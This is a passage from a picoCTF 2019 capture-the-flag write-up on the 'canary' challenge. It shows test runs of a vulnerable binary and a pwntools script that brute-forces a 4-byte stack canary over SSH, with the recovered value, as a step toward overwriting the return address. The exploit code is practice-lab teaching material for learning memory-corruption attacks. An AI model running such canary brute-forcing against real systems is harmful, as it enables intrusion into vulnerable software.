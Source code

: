 `read(0,buf,count);`

```
samson@pico-2019-shell1:/problems/canary_3$ ./vulnPlease enter the length of the entry:
> 0
Input> Ok... Now Where's the Flag?
samson@pico-2019-shell1:/problems/canary_3$ ./vuln
Please enter the length of the entry:
> 1
Input> 1
Ok... Now Where's the Flag?
samson@pico-2019-shell1:/problems/canary_3$ ./vuln
Please enter the length of the entry:
> 64
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** Stack Smashing Detected *** : Canary Value Corrupt!
```

At this point, we sort of know what we have to do. We have to bruteforce the canary which is 4 bytes, then overwrite the first return address with the address of the `display_flag()` function.

We will attempt to attack the canary one value at a time, let's create our python script to do this for us.

```python
#!/usr/bin/env python

from pwn import *

s = ssh(host = '2019shell1.picoctf.com', user='samson', password='REDACTED')

canary = ''
while len(canary) < 4: # Only 1024 iterations, possible because of 32bit
    for i in range(256): # from 00 to FF in each byte
        p = s.process('/problems/canary_3/vuln')
        p.sendlineafter('> ', '{}'.format(32 + len(canary) + 1)) # BUF_SIZE + 1 intending to write past canary
        p.sendlineafter('> ', 'A' * 32 + canary + '{}'.format(chr(i)))
        l = p.recvline()

        if '*** Stack Smashing Detected' not in str(l):
            canary += chr(i)
            log.info('Partial canary: {}'.format(canary))
            break

        p.close()
log.info('Found canary: {}'.format(canary))
```

```bash
$ python canary.py 
...
[*] Partial canary: 57Gh
[*] Found canary: 57Gh
```
